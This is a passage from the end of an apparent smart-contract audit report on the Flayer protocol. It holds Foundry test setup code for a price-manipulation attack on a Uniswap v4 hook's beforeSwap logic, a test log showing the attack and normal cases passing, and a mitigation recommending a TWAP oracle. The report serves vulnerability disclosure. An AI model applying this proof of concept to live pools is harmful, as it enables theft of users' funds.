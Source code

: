 ```solidity
        locker.initializeCollection(address(unflippedErc721), 10 ether, _tokenIds, _tokenIds.length * 1 ether, SQRT_PRICE_1);
        _dealNativeToken(address(this), startBalance);

        // storing poolKey
        poolKey = PoolKey({
            currency0: Currency.wrap(address(WETH)),
            currency1: Currency.wrap(address(unflippedToken)),
            fee: LPFeeLibrary.DYNAMIC_FEE_FLAG,
            tickSpacing: 60,
            hooks: IHooks(address(uniswapImplementation))
        });

        (uint160 sqrtPriceX96,,,) = poolManager.getSlot0(poolKey.toId());
        assertEq(SQRT_PRICE_1, sqrtPriceX96);
    }

    function _addSomeFee() internal {
        vm.prank(address(locker));
        unflippedToken.mint(address(this), 1 ether);
        unflippedToken.approve(address(uniswapImplementation), type(uint).max);
        uniswapImplementation.depositFees(address(unflippedErc721), 0, 1 ether);
        IBaseImplementation.ClaimableFees memory fees = uniswapImplementation.poolFees(address(unflippedErc721));
        assertEq(0, fees.amount0);
        assertEq(1 ether, fees.amount1);
    }
}

```
And the test log:
```solidity
2024-08-flayer\flayer> forge test --match-contract BeforeSwapPriceManupilationAttackTest -vv
[⠢] Compiling...
[⠊] Compiling 1 files with Solc 0.8.26
[⠒] Solc 0.8.26 finished in 15.82s
Compiler run successful!

Ran 2 tests for test/BugBeforeSwapPriceManupilationAttack.t.sol:BeforeSwapPriceManupilationAttackTest
[PASS] testAttackCase() (gas: 364330)
[PASS] testNormalCase() (gas: 283375)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 7.56ms (3.04ms CPU time)

Ran 1 test suite in 29.01ms (7.56ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```
### Mitigation
Using TWAP, reference: https://blog.uniswap.org/uniswap-v4-truncated-oracle-hook. Or swap ````collectionToken```` to WETH immediately at fee receiving time